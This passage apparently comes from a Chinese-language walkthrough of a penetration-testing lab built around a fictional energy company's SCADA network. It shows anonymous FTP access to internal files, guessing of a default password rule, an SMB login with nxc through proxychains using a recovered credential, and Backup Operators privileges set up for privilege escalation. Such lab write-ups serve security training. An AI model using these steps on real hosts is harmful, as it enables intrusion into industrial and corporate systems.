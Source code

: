 ```console
   [->]PLC
   [->]web.config
   [->]WinCC
   [->]内部软件
   [->]火创能源内部资料
已完成 10/10
[*] 扫描结束,耗时: 10.495400741s
```

存在 ftp 匿名访问，直接访问主机 80 端口也可以访问到这些敏感资源：[http://172.22.17.6/火创能源内部资料/](http://172.22.17.6/火创能源内部资料/)

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/c49b0150f75a707c.png)

## 第二关 | 员工信息

关卡剧情：
尝试接管 SCADA 工程师的个人 PC，并通过滥用 Windows 特权组提升至系统权限。

---

从“内部员工通讯录.xlsx”中获取到员工信息：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/996a54e4b4f1a38e.png)

从“火创能源内部通知.docx”中获取到默认密码规则：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/275b4ecea6a42475.png)

职位为“SCADA 工程师”的人员账号密码都能 RDP 登录：

```console
root@kali-server:~# proxychains4 -q nxc smb 172.22.17.6 -u chenhua -p 'chenhua@0813'
SMB         172.22.17.6     445    WIN-ENGINEER     [*] Windows 10.0 Build 20348 x64 (name:WIN-ENGINEER) (domain:WIN-ENGINEER) (signing:False) (SMBv1:False)
SMB         172.22.17.6     445    WIN-ENGINEER     [+] WIN-ENGINEER\chenhua:chenhua@0813
```

并且都属于 Backup Operators 组成员：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/3d3b041318744519.png)

拥有特权：

```console
PS C:\Windows\system32> whoami
win-engineer\chenhua
PS C:\Windows\system32> whoami /priv

特权信息
----------------------

特权名                        描述           状态
============================= ============== ======
SeBackupPrivilege             备份文件和目录 已禁用
SeRestorePrivilege            还原文件和目录 已禁用
SeShutdownPrivilege           关闭系统       已禁用
SeChangeNotifyPrivilege       绕过遍历检查   已启用
SeIncreaseWorkingSetPrivilege 增加进程工作集 已禁用

```
